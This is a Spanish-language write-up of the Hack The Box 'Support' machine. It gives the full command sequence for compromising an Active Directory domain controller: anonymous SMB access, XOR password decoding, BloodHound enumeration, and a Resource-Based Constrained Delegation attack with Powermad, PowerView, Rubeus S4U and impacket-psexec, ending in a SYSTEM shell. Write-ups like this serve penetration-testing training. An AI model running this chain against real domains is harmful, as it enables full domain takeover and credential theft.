





Resumen de Explotación
Resumen del proceso: La máquina objetivo era un Domain Controller de Windows que exponía un recurso compartido SMB accesible sin autenticación. En este recurso se encontraba un ejecutable personalizado (UserInfo.exe) que contenía credenciales LDAP ofuscadas mediante operaciones XOR con una clave estática.
Tras recuperar y desofuscar estas credenciales mediante análisis del binario .NET con dnSpy, obtuve acceso al servicio LDAP del dominio. Utilizando BloodHound para enumerar la estructura del Active Directory, descubrí que el usuario support tenía credenciales almacenadas en el campo info de LDAP y permisos GenericAll sobre el objeto del Domain Controller.
La escalada de privilegios se realizó mediante un ataque de Resource-Based Constrained Delegation (RBCD). Aprovechando el permiso GenericAll y el valor por defecto de ms-ds-machineaccountquota, creé una cuenta de máquina falsa en el dominio y configuré el atributo msds-allowedtoactonbehalfofotheridentity del DC para que confiase en ella. Posteriormente, utilicé Rubeus para solicitar un ticket Kerberos TGS mediante S4U2Self/S4U2Proxy, suplantando al usuario Administrator y obteniendo acceso completo al sistema.
Tecnologías/Exploits: Enumeración SMB sin autenticación, análisis de binarios .NET con dnSpy, desofuscación XOR, enumeración LDAP/Active Directory, BloodHound, Resource-Based Constrained Delegation (RBCD), abuso de permisos GenericAll, Kerberos S4U2Self/S4U2Proxy, Rubeus, Impacket psexec.
Reconocimiento Inicial
Como primera máquina Windows que abordo, procedo siguiendo una metodología estructurada. Comienzo con un escaneo de nmap para identificar servicios activos:

El escaneo revela varios servicios críticos de Active Directory. La presencia simultánea de Kerberos (puerto 88), DNS (puerto 53) y LDAP (puertos 389, 3268, 3269) indica inequívocamente que estamos ante un Domain Controller (DC).
En la información del servicio detecto el hostname DC, lo que sugiere que es un subdominio. Añado tanto dc.support.htb como support.htb al archivo /etc/hosts para la correcta resolución de nombres.
Enumeración LDAP - Recopilación de Contextos
Utilizo ldapsearch para consultar los naming contexts del directorio LDAP:
ldapsearch -H ldap://support.htb -x -s base namingcontextsLa respuesta confirma la estructura del dominio:
dn:
namingcontexts: DC=support,DC=htb
namingcontexts: CN=Configuration,DC=support,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
namingcontexts: DC=ForestDnsZones,DC=support,DC=htbIntento enumerar objetos del dominio con una búsqueda más profunda:
ldapsearch -H ldap://support.htb -x -b "DC=support,DC=htb"Sin embargo, LDAP rechaza la consulta con el error Operations error, indicando que es necesario autenticarse mediante un bind exitoso antes de poder enumerar objetos del directorio:
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this operation a successful bind must be completed on the connection.Parámetros de ldapsearch
Los parámetros utilizados tienen el siguiente significado:
-s: Scope o alcance de búsqueda (base, one, sub o children)-x: Utilizar autenticación simple-b: Base DN para la búsqueda
Enumeración SMB - Acceso al Recurso Compartido
Pruebo enumerar recursos compartidos SMB con NetExec (anteriormente conocido como CrackMapExec):
netexec smb support.htb --sharesLa herramienta identifica el sistema operativo pero falla al enumerar los shares:
SMB 10.10.11.174 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.174 445 DC [-] Error enumerating shares: STATUS_USER_SESSION_DELETEDSin embargo, utilizando smbclient con acceso de invitado (null session) logro listar los recursos compartidos disponibles:
smbclient -N -L //support.htbEl listado muestra varios shares, incluyendo uno personalizado llamado support-tools:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
support-tools Disk support staff tools
SYSVOL Disk Logon server shareAcceso al Recurso support-tools
Los recursos compartidos estándar NETLOGON y SYSVOL no permiten acceso anónimo. Sin embargo, support-tools sí es accesible sin credenciales:
smbclient -N //support.htb/support-toolsAl listar el contenido encuentro varias herramientas conocidas y un archivo sospechoso:
7-ZipPortable_21.07.paf.exe A 2880728
npp.8.4.1.portable.x64.zip A 5439245
putty.exe A 1273576
SysinternalsSuite.zip A 48102161
UserInfo.exe.zip A 277499
windirstat1_1_2_setup.exe A 79171
WiresharkPortable64_3.6.5.paf.exe A 44398000El archivo UserInfo.exe.zip destaca por ser el único que no corresponde a una herramienta pública conocida. Descargo este archivo para su análisis.
Análisis del Ejecutable - Ingeniería Inversa
Tras descomprimir UserInfo.exe.zip, obtengo un ejecutable .NET junto con varias bibliotecas DLL. Para analizar el código, configuro una VM de Windows con VirtualBox y utilizo dnSpy, una herramienta de descompilación y depuración para aplicaciones .NET.
Durante la exploración del código descompilado, encuentro una clase que maneja credenciales de forma sospechosa:

El código revela que la contraseña está almacenada en formato Base64 y protegida mediante dos operaciones XOR sucesivas:
- XOR con la clave
"armando" - XOR con el valor
223
Desofuscación de la Contraseña
Implemento un script Python que invierte las operaciones de ofuscación para recuperar la contraseña en texto plano:
import base64
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
# Decodificar base64
array = base64.b64decode(enc_password)
# Invertir las operaciones XOR (primero XOR 223, luego la clave)
array2 = bytearray(array)
for i in range(len(array)):
array2[i] = array[i] ^ 223 ^ key[i % len(key)]
# Convertir a string
password = array2.decode('utf-8')
print(password)El script devuelve la contraseña: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
Validación de Credenciales
Verifico que las credenciales son válidas para el usuario ldap utilizando NetExec:
netexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'La autenticación tiene éxito, confirmando que las credenciales son correctas:
SMB 10.10.11.174 445 DC [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmzEnumeración de Active Directory con BloodHound
Con credenciales válidas para el dominio, utilizo BloodHound para realizar una enumeración exhaustiva de la estructura del Active Directory y las relaciones de permisos:
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174El colector procesa todos los aspectos del dominio:
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Done in 00M 13SLos parámetros utilizados son:
-c ALL: Recolecta toda la información disponible (usuarios, grupos, equipos, permisos, GPOs, etc.)-d: Especifica el dominio objetivo-ns: Define el servidor de nombres a utilizar
BloodHound genera 7 archivos JSON con información detallada: computers, containers, domains, gpos, groups, ous y users.
Domain Dump con ldapdomaindump
Complemento la enumeración con ldapdomaindump para obtener un volcado completo del directorio en formato más legible:
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldapEntre los numerosos datos volcados, destaca un usuario con información sensible en el campo info:
"info": [
"Ironside47pleasure40Watchful"
]Este valor tiene la apariencia de una contraseña. Dada la práctica común de que los administradores almacenen credenciales temporales en campos de comentarios, esto merece investigación.
Análisis con BloodHound - Identificación de Permisos Críticos
Inicio la interfaz gráfica de BloodHound e importo los archivos JSON recolectados. Utilizo una consulta Cypher personalizada para analizar las relaciones del usuario support:
MATCH p=(u:User {name:"SUPPORT@SUPPORT.HTB"})-[r*1..2]->(n)
RETURN pEl grafo resultante revela información crítica:

El usuario support tiene el permiso GenericAll sobre el objeto del Domain Controller, lo que otorga control completo sobre ese objeto y permite múltiples vectores de escalada de privilegios.
Acceso Inicial - WinRM como Usuario support
Antes de explotar los permisos avanzados, verifico si el usuario support con la contraseña encontrada (Ironside47pleasure40Watchful) tiene acceso remoto al sistema:
netexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'La respuesta confirma que el usuario tiene privilegios de WinRM con el indicador Pwn3d!:
WINRM 10.10.11.174 5985 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM 10.10.11.174 5985 DC [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)Me conecto al sistema utilizando Evil-WinRM:
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'Obtengo una sesión de PowerShell remota exitosa:
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents>Navego al escritorio del usuario y recupero la flag de usuario.
Escalada de Privilegios - Abuso de GenericAll
Vuelvo a examinar los resultados de BloodHound para planificar la escalada de privilegios. El permiso GenericAll sobre el DC es especialmente poderoso:

El permiso GenericAll permite modificar prácticamente cualquier atributo del objeto del DC, incluyendo el atributo msds-allowedtoactonbehalfofotheridentity, que es la base del ataque Resource-Based Constrained Delegation (RBCD).
Preparación de Herramientas
Para realizar el ataque RBCD, necesito varias herramientas de PowerShell y un ejecutable .NET. Subo los siguientes archivos a la máquina víctima:
- PowerView.ps1: Framework de reconocimiento de AD (enlace)
- Powermad.ps1: Herramienta para crear cuentas de máquina (enlace)
- Rubeus.exe: Herramienta Kerberos para C# (compilado precompilado)
*Evil-WinRM* PS C:\Users\support\Desktop> upload PowerMad.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> upload Rubeus.exeCargo los scripts en memoria para poder utilizar sus funciones:
*Evil-WinRM* PS C:\Users\support\Desktop> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> . .\Powermad.ps1Verificación de Cuota de Cuentas de Máquina
Compruebo el valor del atributo ms-ds-machineaccountquota, que determina cuántas cuentas de máquina puede crear un usuario del dominio:
*Evil-WinRM* PS C:\Users\support\Desktop> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquotaEl valor es 10, que es el configurado por defecto en Active Directory:
ms-ds-machineaccountquota
-------------------------
10Esto significa que puedo crear hasta 10 cuentas de máquina en el dominio sin necesitar privilegios especiales.
Creación de Cuenta de Máquina Falsa
Utilizo Powermad para crear una nueva cuenta de máquina con la contraseña asd:
*Evil-WinRM* PS C:\Users\support\Desktop> New-MachineAccount -MachineAccount asd -Password $(ConvertTo-SecureString 'asd' -AsPlainText -Force)La cuenta se crea exitosamente:
[+] Machine account asd addedObtención del SID de la Nueva Máquina
Necesito el SID (Security Identifier) de la máquina recién creada para configurar la delegación:
*Evil-WinRM* PS C:\Users\support\Desktop> $fakesid = Get-DomainComputer asd | select -expand objectsid
*Evil-WinRM* PS C:\Users\support\Desktop> $fakesidEl SID asignado es:
S-1-5-21-1677581083-3380853377-188903654-5602Configuración de Resource-Based Constrained Delegation
El siguiente paso es modificar el atributo msds-allowedtoactonbehalfofotheridentity del DC para que confíe en nuestra máquina falsa. Esto se hace creando un Security Descriptor que otorga permisos completos a nuestra máquina:
*Evil-WinRM* PS C:\Users\support\Desktop> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\Users\support\Desktop> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Desktop> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Desktop> Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}Esta configuración permite que nuestra máquina falsa actúe en nombre de otros usuarios cuando se conecte al DC.
Verificación con BloodHound
Para confirmar que la configuración se aplicó correctamente, vuelvo a ejecutar el colector de BloodHound y analizo el nuevo grafo:

El grafo confirma que la relación AllowedToAct se estableció correctamente entre nuestra máquina falsa y el DC.
Generación de Hash RC4 para la Cuenta de Máquina
Para solicitar tickets Kerberos en nombre de nuestra máquina falsa, necesito el hash NTLM de su contraseña. Utilizo Rubeus para calcular el hash:
*Evil-WinRM* PS C:\Users\support\Desktop> .\Rubeus.exe hash /password:asd /user:asd /domain:support.htbRubeus genera varios tipos de hashes:
[*] Action: Calculate Password Hash(es)
[*] Input password : asd
[*] Input username : asd
[*] Input domain : support.htb
[*] Salt : SUPPORT.HTBasd
[*] rc4_hmac : EF8D80B784540A0EC71A1FC853985619
[*] aes128_cts_hmac_sha1 : C25CC9853D0BDB97E48ADC22EE42F298
[*] aes256_cts_hmac_sha1 : 03583D8E1BD4215117451F3BF965334FFFACF385F7FBC5C7F1F593C7911C45ED
[*] des_cbc_md5 : 45BC13B9155DEFB6El hash RC4 (NTLM) que necesito es: EF8D80B784540A0EC71A1FC853985619
Solicitud de Ticket de Servicio mediante S4U
Ahora utilizo Rubeus para realizar un ataque S4U2Self y S4U2Proxy. Este ataque solicita un ticket de servicio (TGS) para el servicio CIFS del DC, suplantando al usuario Administrator:
*Evil-WinRM* PS C:\Users\support\Desktop> .\Rubeus.exe s4u /user:asd /rc4:EF8D80B784540A0EC71A1FC853985619 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /pttEl parámetro /ptt (Pass The Ticket) intentaría inyectar el ticket directamente en la sesión, pero dado que estamos en una sesión de WinRM, este enfoque no funcionará directamente. En su lugar, Rubeus genera tres tickets en formato Base64, siendo el último el ticket de servicio final que necesitamos.
Conversión del Ticket a Formato ccache
Para utilizar el ticket desde mi máquina atacante Kali Linux, necesito convertirlo del formato .kirbi (Kerberos de Windows) al formato .ccache (utilizado por las herramientas de Linux).
Copio el último ticket Base64 generado por Rubeus, lo guardo en un archivo y lo decodifico:
base64 -d ticket.kirbi.b64 > ticket.kirbiLuego utilizo ticketConverter.py de Impacket para convertir el formato:
python3 ticketConverter.py ticket.kirbi ticket.ccacheLa conversión se completa exitosamente:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] converting kirbi to ccache...
[+] doneAcceso como Administrator mediante psexec
Con el ticket en formato ccache, puedo utilizarlo para autenticarme como Administrator. Configuro la variable de entorno KRB5CCNAME para que apunte a mi ticket y utilizo impacket-psexec:
KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-passLos parámetros indican:
-k: Utilizar autenticación Kerberos-no-pass: No solicitar contraseña (usar el ticket)
Psexec se conecta exitosamente al DC como Administrator:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file GhfjxMaI.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service rLGi on dc.support.htb.....
[*] Starting service rLGi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32>Tengo una shell de SYSTEM en el Domain Controller. Navego al escritorio de Administrator y recupero la flag de root, completando la máquina.